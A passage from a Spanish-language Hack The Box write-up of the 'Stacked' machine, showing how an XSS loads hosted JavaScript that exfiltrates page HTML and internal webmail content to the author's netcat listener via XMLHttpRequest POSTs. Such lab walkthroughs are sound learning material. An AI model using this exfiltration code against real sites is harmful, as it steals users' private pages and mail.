 Este lo que iba a hacer es enviar una peticion GET a mi session de netcat por el puerto 9999 con la ruta en la que se encontraba el usuario en ese momento. 

Abri un servidor de Python por el puerto 8000 alojando `request-3.js` y apunte a mi archivo JS desde el XSS.

![0](https://user-images.githubusercontent.com/69093629/162544871-e17b5ff2-1cb8-45cc-9a31-b43604991314.png)

Espere un tiempo y recibi una conexion a mi session de netcat en la que contenia una ruta.

![0](https://user-images.githubusercontent.com/69093629/162544592-0e724ada-b7ed-499c-a487-1fbe20a7f167.png)

Al parecer el usuario estaba en `mail.stacked.htb`. Este subdominio no lo encontro `wfuzz` porque operaba localmente en la maquina y no tenia acceso a el de manera externa.

El siguiente paso fue descargar el HTML de `http://mail.stacked.htb/read-mail.php?id=7` y almacenarlo en `index.html`.

Lo que hice fue crear otro script en JS con el siguiente codigo:

```js
var oReq = new XMLHttpRequest();
oReq.open("POST", "http://10.10.16.59:5555/", false);
oReq.send(document.documentElement.outerHTML);
```

Este lo que iba a hacer fue enviar una peticion POST a mi sesion de netcat con el codigo HTML de la pagina en la que se encontraba el usuario por el puerto `5555` y almacenar este en un archivo llamado `index.html`.

Apunte a mi archivo JS llamado `request.js` desde el XSS y recibi una conexion a mi sesion de netcat.

![0](https://user-images.githubusercontent.com/69093629/162545501-0ace3a79-4a76-4a62-b705-029fcaffb8fd.png)

### Esquema de ataque:

![Diagrama en blanco](https://user-images.githubusercontent.com/69093629/162549694-f2646995-76e5-4b23-96ff-710ee65c508d.png)

Esta era la pagina con el codigo HTML del usuario.

![webservidor2](https://user-images.githubusercontent.com/69093629/162546326-2b628a81-cecf-40d4-a34e-d1587a2ec2cb.png)

Habia un usuario llamado `Jeremy Taint` con un hiperenlace que te redirigia a `/read-mail.php?id=1`:

![0](https://user-images.githubusercontent.com/69093629/162546383-87e5e3a6-7cdc-43fb-a192-65bfca15d8f6.png)

Esto me llamo la atencion, por lo que decidi descargar el HTML correspondiente con el siguiente codigo JS:

```js
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://mail.stacked.htb/read-mail.php?id=1", false);
oReq.send();

var response = oReq.responseText;

var resp = new XMLHttpRequest();
resp.open("POST", "http://10.10.16.59:5555/", false);
resp.send(response);
```
